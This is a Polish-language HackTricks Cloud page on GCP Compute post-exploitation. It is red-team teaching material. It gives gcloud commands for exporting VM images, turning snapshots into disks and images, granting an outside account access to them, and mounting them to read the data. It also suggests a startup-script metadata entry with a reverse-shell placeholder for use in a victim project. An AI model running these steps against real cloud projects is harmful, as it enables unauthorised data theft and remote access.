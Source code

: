 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Aby uzyskać więcej informacji na temat Compute i VPC (Networking), sprawdź:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Eksportuj i sprawdź obrazy lokalnie

To pozwoli atakującemu na **dostęp do danych zawartych w już istniejących obrazach** lub **utworzenie nowych obrazów działających VM** i dostęp do ich danych bez dostępu do działającej VM.

Możliwe jest wyeksportowanie obrazu VM do bucketu, a następnie pobranie go i zamontowanie lokalnie za pomocą polecenia:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Aby wykonać tę akcję, atakujący może potrzebować uprawnień do koszyka pamięci masowej oraz na pewno **uprawnień do cloudbuild**, ponieważ to **usługa**, która zostanie poproszona o wykonanie eksportu.\
Ponadto, aby to zadziałało, SA codebuild i SA compute muszą mieć uprawnienia uprzywilejowane.\
SA cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` potrzebuje:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

A SA `<project-id>-compute@developer.gserviceaccount.com` potrzebuje:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Eksportuj i sprawdź migawki i dyski lokalnie

Nie jest możliwe bezpośrednie eksportowanie migawek i dysków, ale możliwe jest **przekształcenie migawki w dysk, dysku w obraz** i zgodnie z **poprzednią sekcją**, wyeksportowanie tego obrazu, aby sprawdzić go lokalnie.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspekcja obrazu tworząc VM

Celem uzyskania dostępu do **danych przechowywanych w obrazie** lub wewnątrz **działającego VM**, z którego atakujący **utworzył obraz,** możliwe jest przyznanie zewnętrznemu kontu dostępu do obrazu:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
a następnie utwórz nową VM z tego:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Jeśli nie mogłeś przyznać dostępu do swojego zewnętrznego konta przez obraz, mógłbyś uruchomić VM używając tego obrazu w projekcie ofiary i **sprawić, by metadane wykonały reverse shell** w celu uzyskania dostępu do obrazu, dodając parametr:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Z celem uzyskania dostępu do **danych przechowywanych na dysku lub w migawce, możesz przekształcić migawkę w dysk, dysk w obraz i postępować zgodnie z wcześniejszymi krokami.**

Lub możesz **przyznać zewnętrznemu kontu dostęp** do dysku (jeśli punktem wyjścia jest migawka, przyznaj dostęp do migawki lub utwórz z niej dysk):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Dołącz dysk** do instancji:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Zamontuj dysk wewnątrz VM:

1.  **SSH do VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Zidentyfikuj dysk**: Po wejściu do VM, zidentyfikuj nowy dysk, wyświetlając urządzenia dyskowe. Zazwyczaj można go znaleźć jako `/dev/sdb`, `/dev/sdc` itp.
3. **Sformatuj i zamontuj dysk** (jeśli to nowy lub surowy dysk):
*   Utwórz punkt montowania:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Zamontuj dysk:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Jeśli **nie możesz przyznać dostępu do zewnętrznego projektu** do migawki lub dysku, być może będziesz musiał **wykonać te działania wewnątrz instancji w tym samym projekcie co migawka/dysk**.

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
